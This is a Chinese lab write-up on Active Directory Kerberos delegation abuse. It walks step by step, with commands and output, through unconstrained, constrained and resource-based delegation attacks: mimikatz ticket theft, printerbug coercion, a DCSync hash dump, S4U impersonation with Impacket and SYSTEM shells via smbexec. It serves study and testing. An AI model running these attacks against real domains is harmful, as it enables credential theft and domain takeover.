






委派是指将域内的用户权限委派给服务账户，使服务账户拥有访问域内其他服务的权限

# 一、委派的分类
## 1、非约束性委派（UD）


特点：

（1）服务账户可以直接获取被委派用户的TGT，服务账户可以直接使用该TGT模拟使用任意服务

（2）默认只有域管有设置非约束性委派的权限

## 2、约束性委派（CD）


特点：

（1）服务账号只能获取该用户对指定服务的ST

（2）默认只有域管有设置约束性委派的权限

类型：

（1）仅使用Kerberos协议

（2）使用任何身份验证协议（比如 NTLM、LDAP、OAuth ）

协议：

（1）S4u2self

用户可能以其他方式（如表单、NTLM）认证后，被配置为约束性委派的SPN可以使用S4u2self向KDC申请自身服务的可转发ST

（2）S4u2Proxy

S4u2Proxy可以用上一步的可转发ST请求其他预定义服务的ST

## 3、基于资源的约束性委派（RBCD）
### 3.1 RBCD和传统约束委派最大的区别是工作方向不同：
从账户 A 到账户 B 的传统约束委派是在<font style="color:#DF2A3F;">账户 A</font> 的 msDS-AllowedToDelegateTo 属性中配置的，并定义了从 A 到 B 的“传出”信任。

而基于资源的约束委派是在<font style="color:#DF2A3F;">账户 B</font> 的 msDS-AllowedToActOnBehalfOfOtherIdentity 属性中配置的，并定义了从 A 到 B 的“传入”信任。

### 3.2 配置RBCD的关键
配置 RBCD 的关键在于 msDS-AllowedToActOnBehalfOfOtherIdentity 属性, 通常以下用户能够修改此属性

1）将主机加入域的用户 (机器账户中会有一个 msDS-CreatorSID 属性, 使用非域管账户加入域时才会显示)

2）Account Operators (能修改任意域内非域控机器的委派属性)

3）NT AUTHORITY\SELF (该主机的机器账户)

# 二、查询具有委派属性的账户
## 1、查询非约束性委派的主机或服务账户
（1）PowerShell

```plain
PS C:\Users\administrator\Desktop> Get-NetComputer -Unconstrained -Domain sec.com|select name

name
----
DC1
WIN2022-APP-1
```

（2）Ldapsearch

查询配置了非约束性委派的主机

```plain
C:\root> ldapsearch -x -H ldap://192.168.30.2:389 -D "test1@sec.com" -w Az123456@ -b "DC=sec,DC=com" "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))"|grep dn:
dn: CN=DC1,OU=Domain Controllers,DC=sec,DC=com
dn: CN=WIN2022-APP-1,CN=Computers,DC=sec,DC=com
```

查询配置了非约束性委派的服务账户（未知原因返回空）

```plain
ldapsearch -x -H ldap://192.168.30.2:389 -D "test1@sec.com" -w Az123456@ -b "DC=sec,DC=com" "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))"|grep dn:
```

## 2、查询约束性委派的主机或服务账户
查询约束性委派的主机

```plain
C:\root> ldapsearch -x -H ldap://192.168.30.2:389 -D "test1@sec.com" -w Az123456@ -b "DC=sec,DC=com" "(&(samAccountType=805306369)(msds-allowedtodelegateto=*))"|grep -e dn -e msDS-AllowedToDelegateTo
dn: CN=machine2,CN=Computers,DC=sec,DC=com
msDS-AllowedToDelegateTo: cifs/DC1.sec.com/sec.com
msDS-AllowedToDelegateTo: cifs/DC1.sec.com
msDS-AllowedToDelegateTo: cifs/DC1
msDS-AllowedToDelegateTo: cifs/DC1.sec.com/SEC
msDS-AllowedToDelegateTo: cifs/DC1/SEC
```

查询约束性委派的服务账户

```plain
(py38) C:\root> ldapsearch -x -H ldap://192.168.30.2:389 -D "test1@sec.com" -w Az123456@ -b "DC=sec,DC=com" "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))"|grep -e dn -e msDS-AllowedToDelegateTo
dn: CN=test2,CN=Users,DC=sec,DC=com
msDS-AllowedToDelegateTo: ldap/DC1.sec.com/sec.com
msDS-AllowedToDelegateTo: ldap/DC1.sec.com
msDS-AllowedToDelegateTo: ldap/DC1
msDS-AllowedToDelegateTo: ldap/DC1.sec.com/SEC
msDS-AllowedToDelegateTo: ldap/DC1/SEC
msDS-AllowedToDelegateTo: ldap/DC1.sec.com/DomainDnsZones.sec.com
msDS-AllowedToDelegateTo: ldap/DC1.sec.com/ForestDnsZones.sec.com

```

3、查询基于资源的约束性委派的主机或服务账户

# 三、配置非约束性委派攻击实验
## 1、诱使管理员主动访问机器
配置主机WIN2022-APP-1具有非约束性委派属性



```plain
(py38) C:\root> ldapsearch -x -H ldap://192.168.30.2:389 -D "test1@sec.com" -w Az123456@ -b "DC=sec,DC=com" "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))"|grep dn:|grep WIN2022-APP-1
dn: CN=WIN2022-APP-1,CN=Computers,DC=sec,DC=com

```

2、诱使域管理员访问app机器

```plain
PS C:\Users\administrator\Desktop> net use \\win2022-app-1 /user:sec\administrator Az123456@
命令成功完成。
```

此时在APP主机就会有域管administrator的TGT

```plain
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```



把票据导入到内存中，可以看到成功访问域控

```plain
mimikatz # kerberos::ptt C:\Users\administrator\Desktop\mimikatz_trunk\x64\[0;7d2fa]-2-0-40e10000-Administrator@krbtgt-SEC.COM.kirbi

* File: 'C:\Users\administrator\Desktop\mimikatz_trunk\x64\[0;7d2fa]-2-0-40e10000-Administrator@krbtgt-SEC.COM.kirbi': OK

mimikatz # kerberos::list

[00000000] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 2024/9/7 19:28:31 ; 2024/9/8 5:28:31 ; 2024/9/14 19:28:31
   Server Name       : krbtgt/SEC.COM @ SEC.COM
   Client Name       : Administrator @ SEC.COM
   Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;

mimikatz # exit
Bye!

C:\Users\administrator\Desktop\mimikatz_trunk\x64>dir \\dc1.sec.com\C$
 驱动器 \\dc1.sec.com\C$ 中的卷没有标签。
 卷的序列号是 BCFE-B05E

 \\dc1.sec.com\C$ 的目录

2024/06/02  05:12    <DIR>          inetpub
2021/05/08  16:20    <DIR>          PerfLogs
2024/08/16  20:53    <DIR>          Program Files
2021/05/08  22:23    <DIR>          Program Files (x86)
2024/08/16  21:26                12 test.txt
2024/08/18  01:06    <DIR>          Users
2024/08/18  17:42    <DIR>          Windows
               1 个文件             12 字节
               6 个目录 200,186,126,336 可用字节

C:\Users\administrator\Desktop\mimikatz_trunk\x64>
```

注：Win2022不支持mimikatz的部分功能，这部分用win7完成的

## 2、结合打印机漏洞攻击
之前的手法需要管理员主动连接配置了非约束委派攻击的主机，才能取得域管的TGT，实战意义不大。

可以通过打印机服务漏洞来强制域控连接配置了非约束委派的域控机器账号的TGT，不需要域管理员进行交互。

在Win7上使用Rubues监听来自AD01主机的票据

```plain
C:\Users\Administrator\Desktop>Rubeus.exe monitor /interval:1 /filteruser:DC1$

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: TGT Monitoring
[*] Target user     : AD01$
[*] Monitoring every 1 seconds for new TGTs
```

然后使用打印机服务漏洞攻击域控AD01，使其强制回连认证Win7主机

ps：由于使用SpoolSample会出现闪退，此处使用printerbug.py

```plain
C:\root\tools\krbrelayx> python3 printerbug.py sec/test1:'Az123456@'@192.168.30.2 win7-1
[*] Impacket v0.11.0 - Copyright 2023 Fortra

[*] Attempting to trigger authentication via rprn RPC at 192.168.30.2
[*] Bind OK
[*] Got handle
DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Triggered RPC backconnect, this may or may not have worked

```

可能会报错，但实际上已经成功返回base64格式的TGT

```plain
C:\Users\Administrator\Desktop>Rubeus.exe monitor /interval:1 /filteruser:DC1$

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: TGT Monitoring
[*] Target user     : DC1$
[*] Monitoring every 1 seconds for new TGTs

[*] 10/7/2024 11:44:26 AM UTC - Found new TGT:

  User                  :  DC1$@SEC.COM
  StartTime             :  10/7/2024 7:34:33 PM
  EndTime               :  10/8/2024 5:34:27 AM
  RenewTill             :  10/14/2024 7:34:27 PM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded,
 forwardable
  Base64EncodedTicket   :

    doIFZDCCBWCgAwIBBaEDAgEWooIEfDCCBHhhggR0MIIEcKADAgEFoQkbB1NFQy5DT02iHDAaoAMC
AQKhEzARGwZrcmJ0Z3QbB1NF
    Qy5DT02jggQ+MIIEOqADAgESoQMCAQKiggQsBIIEKA9699rmofrtCz+49FbTdlOj3xtES84XlTRn
ulH2zq1BcIYr+TWF/js0YHKU
    N04aVdsaYopO1fmeijVxd5TsPdTitH3NufgXsGOp7h4AWfPjF8msCXZohtT6hkgMHsYvSPX/GeYB
t1ceZ2/dy8qpnasSH0GLHXlV

.........
```

转换导入票据

```plain
C:\Users\Administrator\Desktop>Rubeus.exe ptt /ticket:doIFZDCCBWCgAw.......
```

尝试导出域内所有用户的Hash

```plain
C:\Users\Administrator\Desktop\mimikatz-master\x64>mimikatz.exe "lsadump::dcsync
 /all /csv"

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # lsadump::dcsync /all /csv
[DC] 'sec.com' will be the domain
[DC] 'DC1.sec.com' will be the DC server
[DC] Exporting domain 'sec.com'
1106    machine1$       8db91dfa87876659d76b5f9106d243eb        4096
1109    hack    31d6cfe0d16ae931b73c59d7e0c089c0        514
1107    machine2$       8db91dfa87876659d76b5f9106d243eb        4096
.......

mimikatz # exit
```

# 四、配置约束性委派攻击
## 1、实验
配置test2用户的委派属性为非约束性委派



查询委派

```plain
C:\root> ldapsearch -x -H ldap://192.168.30.2:389 -D "test1@sec.com" -w Az123456@ -b "DC=sec,DC=com" "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))"
# extended LDIF
#
# LDAPv3
# base <DC=sec,DC=com> with scope subtree
# filter: (&(samAccountType=805306368)(msds-allowedtodelegateto=*))
# requesting: ALL
#

# test2, Users, sec.com
dn: CN=test2,CN=Users,DC=sec,DC=com
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: test2
givenName: test2
distinguishedName: CN=test2,CN=Users,DC=sec,DC=com
instanceType: 4
whenCreated: 20240818101634.0Z
whenChanged: 20241008005132.0Z
displayName: test2
uSNCreated: 32819
uSNChanged: 73970
name: test2
objectGUID:: uKbh8vU9qUCBaNnkbQtB0Q==
userAccountControl: 16777728
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 133701835616276432
lastLogoff: 0
lastLogon: 133701836436756401
pwdLastSet: 133684497943307595
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAkgR+Yr89gKD1G6krVAQAAA==
accountExpires: 9223372036854775807
logonCount: 18
sAMAccountName: test2
sAMAccountType: 805306368
userPrincipalName: test2@sec.com
servicePrincipalName: priv/test
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=sec,DC=com
dSCorePropagationData: 20240923140019.0Z
dSCorePropagationData: 16010101000001.0Z
lastLogonTimestamp: 133701836436756401
msDS-AllowedToDelegateTo: cifs/DC1.sec.com/sec.com
msDS-AllowedToDelegateTo: cifs/DC1.sec.com
msDS-AllowedToDelegateTo: cifs/DC1
msDS-AllowedToDelegateTo: cifs/DC1.sec.com/SEC
msDS-AllowedToDelegateTo: cifs/DC1/SEC
msDS-SupportedEncryptionTypes: 0
```

先绑定hosts

```plain
192.168.30.2 dc1.sec.com
```

以administrator申请一张访问cifs/dc1.sec.com的票据

```plain
(py38) C:\root> getST.py -dc-ip 192.168.30.2 sec.com/test2:"Az123456@" -spn cifs/dc1.sec.com -impersonate administrator
Impacket v0.12.0.dev1+20240816.161125.5d881ece - Copyright 2023 Fortra

[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@cifs_dc1.sec.com@SEC.COM.ccache
```

尝试smbexec

```plain
(py38) C:\root> export KRB5CCNAME=administrator@cifs_dc1.sec.com@SEC.COM.ccache

(py38) C:\root> smbexec.py -no-pass -k dc1.sec.com -dc-ip 192.168.30.2
Impacket v0.12.0.dev1+20240816.161125.5d881ece - Copyright 2023 Fortra

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```

## 2、原理

# 五、基于资源的约束性委派攻击
由于hack用户是普通域账号权限，无法执行mimikatz，所以可以使用RBCD提权获取Win2008-1的system权限



1、创建Win2008-2，使用hack用户加入域，adfind查询

hack用户把WIN2008-2机器拉入域，所以用户hack有给Win2008-2配置RBCD攻击

```plain
PS C:\Users\Administrator\Desktop\AdFind> .\AdFind.exe -b "DC=sec,DC=local" -f "cn=WIN2008-1" cn mS-DS-CreatorSID

AdFind V01.62.00cpp Joe Richards (support@joeware.net) October 2023

Using server: Win2019-DC1.sec.local:389
Directory: Windows Server 2019 (10.0.17763.6054)

dn:CN=WIN2008-1,CN=Computers,DC=sec,DC=local
>cn: WIN2008-1
>ms-ds-creatorsid: S-1-5-21-2066713137-2133816201-3751750268-1103

PS C:\Users\Administrator\Desktop\AdFind> .\AdFind.exe -b "DC=sec,DC=local" -f "(&objectsid=S-1-5-21-2066713137-2133816201-3751750268-1103)"objectclass cn dn

AdFind V01.62.00cpp Joe Richards (support@joeware.net) October 2023

Using server: Win2019-DC1.sec.local:389
Directory: Windows Server 2019 (10.0.17763.6054)

dn:CN=hack,CN=Users,DC=sec,DC=local
>objectClass: top
>objectClass: person
>objectClass: organizationalPerson
>objectClass: user
>cn: hack

1 Objects returned
PS C:\Users\Administrator\Desktop\AdFind>
```

注：使用Ldapsearch查询出来是base64,要自己转换

2、创建机器用户

注：只有ldaps方法创建才会有spn

```plain
┌──(root㉿Kali)-[~]
└─# impacket-addcomputer -computer-name 'machine1$' -computer-pass '123456' -dc-ip 10.10.4.2 -method LDAPS sec.local/hack:"Az123456@"
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Successfully added machine account machine1$ with password 123456.

```

查询SPN

```plain
C:\Users\Administrator>setspn -q */* | findstr "machine"
CN=machine1,CN=Computers,DC=sec,DC=local
        RestrictedKrbHost/machine1.sec.local
        RestrictedKrbHost/machine1
        HOST/machine1.sec.local
        HOST/machine1

```

3、获取Win2008-1的system权限

```plain
# 先配置 msDS-AllowedToActOnBehalfOfOtherIdentity 属性
┌──(root㉿Kali)-[~]
└─# rbcd.py sec.local/hack:"Az123456@" -dc-ip 10.10.4.2 -action write -delegate-to "Win2008-1$" -delegate-from "machine1$"
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] machine1$ can now impersonate users on Win2008-1$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     machine1$    (S-1-5-21-2066713137-2133816201-3751750268-1110)

# 获取凭证
┌──(root㉿Kali)-[~]
└─# getST.py -dc-ip 10.10.4.2 sec.local/machine1$:"123456" -spn CIFS/Win2008-1.sec.local -impersonate administrator
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@CIFS_Win2008-1.sec.local@SEC.LOCAL.ccache

# 导入凭证
┌──(root㉿Kali)-[~]
└─# export KRB5CCNAME=administrator@CIFS_Win2008-1.sec.local@SEC.LOCAL.ccache

┌──(root㉿Kali)-[~]
└─# smbexec.py -no-pass -k win2008-1.sec.local
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
smb2-quota    smbcacls      smbclient     smbclient.py  smbcontrol    smbcquotas    smbd          smbexec.py    smbget        smbinfo       smbmap        smbpasswd     smbserver.py  smbspool      smbstatus     smbtar        smbtree
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>

```